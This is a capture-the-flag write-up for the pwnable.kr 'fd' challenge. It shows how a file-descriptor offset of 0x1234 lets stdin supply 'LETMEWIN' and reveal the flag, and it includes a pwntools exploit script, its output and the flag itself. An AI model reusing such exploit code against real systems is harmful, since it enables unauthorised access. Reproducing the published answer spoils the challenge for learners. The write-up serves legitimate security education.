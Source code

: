 # fd

## step-by-step

Following the game instructions, you need to connect to a remote machine using the following command:

```
ssh fd@pwnable.kr -p2222
```

> [!WARNING]
> The password to access the remote machine is `guest`.

If everything went well you should get a result similar to this:

```
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@khu.ac.kr
- irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Mon Jul  1 03:16:08 2024 from 101.176.80.154
fd@pwnable:~$
```

Let's try using the `ls -la` command to see which files we have access to:

```
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 116 root   root 4096 Oct 30  2023 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

as you can imagine, the flag we are looking for is found inside the `flag` file, however, as you can imagine from the permissions, we cannot view the content, in fact using the `cat flag` command we obtain:

```
fd@pwnable:~$ cat flag 
cat: flag: Permission denied
```

We therefore note that there is an ELF file, i.e. `fd`, correlated by the `fd.c` source whose contents we can view using the `cat fd.c` command:

```
fd@pwnable:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

Well, let's just focus on the C language, so I'll write the code more plainly:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

> [!NOTE]
> I apologize for the very messy style but it wouldn't make sense to fix it because it is important to develop the ability to read, modify and exploit code written by others.

In this code we notice:

1. The ability to pass a number via command line, using `argv`.
2. That for the calculation of the file descriptor `fd` we have the difference between the string passed from the command line (converted into a number via `atoi()`) and the hexadecimal number `0x1234`.
3. That by inserting the string `LETMEWIN` it is possible to execute the command `system("/bin/cat flag");` which coincidentally is exactly what we need to find the flag.

Therefore, it is clear that to exploit this code to our advantage we will need to enter a number from the command line that allows us to redirect the `fd` file descriptor in our favor. Well this number is precisely the conversion into an integer of the number `0x1234` which can be obtained using the following command:

```
(venv) [berna@berna fd]$ python -c "print(0x1234)"
4660
```

In fact, the integer difference between `4660` and itself results in `fd = 0`. This means that the file descriptor is associated with `stdin`. So the `read()` function will read from `stdin` any data that we decide to write and in particular we should write the string `LETMEWIN`. Let's see it in action:

```
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Perfect, everything went according to plan! So as you can imagine the flag you are looking for is the following sentence:

```
mommy! I think I know what a file descriptor is!!
```

## Exploitation

Finally, we can use the following exploit, written in `Python`, to replicate the vulnerability in a fully automated way:

```python
from pwn import *

shell = ssh("fd", "pwnable.kr", password="guest", port=2222)
process = shell.process(executable="./fd", argv=["fd", "4660"])
process.sendline("LETMEWIN".encode())

msg = str(process.recv())
flag = str(process.recv())
log.info(msg)
log.success(f"Flag: {flag}")

process.close()
shell.close()
```

then using the `python exploit.py` command we get:

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./fd') on pwnable.kr: pid 3076
73
[*] b'good job :)\n'
[+] Flag: b'mommy! I think I know what a file descriptor is!!\n'
[*] Stopped remote process 'fd' on pwnable.kr (pid 307673)
[*] Closed connection to 'pwnable.kr'
(venv) [berna@berna fd]$ 
```
